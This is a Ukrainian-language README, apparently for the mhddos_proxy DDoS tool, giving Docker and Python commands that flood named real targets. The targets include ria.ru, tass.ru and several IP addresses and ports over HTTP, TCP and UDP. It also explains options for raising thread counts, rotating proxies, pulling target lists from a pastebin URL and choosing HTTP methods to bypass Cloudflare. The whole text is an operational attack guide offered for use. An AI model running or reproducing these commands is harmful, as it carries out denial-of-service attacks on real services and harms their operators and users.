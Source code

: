 https://github.com/localdotcom/mhddos-proxy-helm

## Запуск - ВИМКНІТЬ VPN

### Docker

HTTP(S) по URL

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru https://tass.ru

HTTP по IP + PORT

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy 5.188.56.124:80 5.188.56.124:3606

TCP

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy tcp://194.54.14.131:4477 tcp://194.54.14.131:22

UDP - **ТУТ ПОТРІБНО ВКЛЮЧИТИ VPN**

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy udp://217.175.155.100:53

### Python - усе аналогічно

    python3 runner.py https://ria.ru https://tass.ru

### Налаштування

**УСІ ПАРАМЕТРИ МОЖНА КОМБІНУВАТИ**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - кількість потоків, за замовчуванням - CPU * 1000

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід атаки, додайте прапорець `--debug`

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --debug https://ria.ru https://tass.ru

Змінити частоту оновлення проксі (за замовчуванням - кожні 15 хвилин) - `-p SECONDS`

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -p 1200 https://ria.ru https://tass.ru

Цілі з віддаленого файла конфігурації - `-c https://pastebin.com/raw/95D1jjzy`

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -c https://pastebin.com/raw/95D1jjzy

Обрати метод(и) для HTTP(S) атаки (наприклад для обходу Cloudflare) - `--http-methods CFB`  
**Цей параметр тільки в кінці** команди  
Повний список [див. тут](https://github.com/MHProDev/MHDDoS#features-and-methods)

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru https://tass.ru --http-methods CFB

## Документація
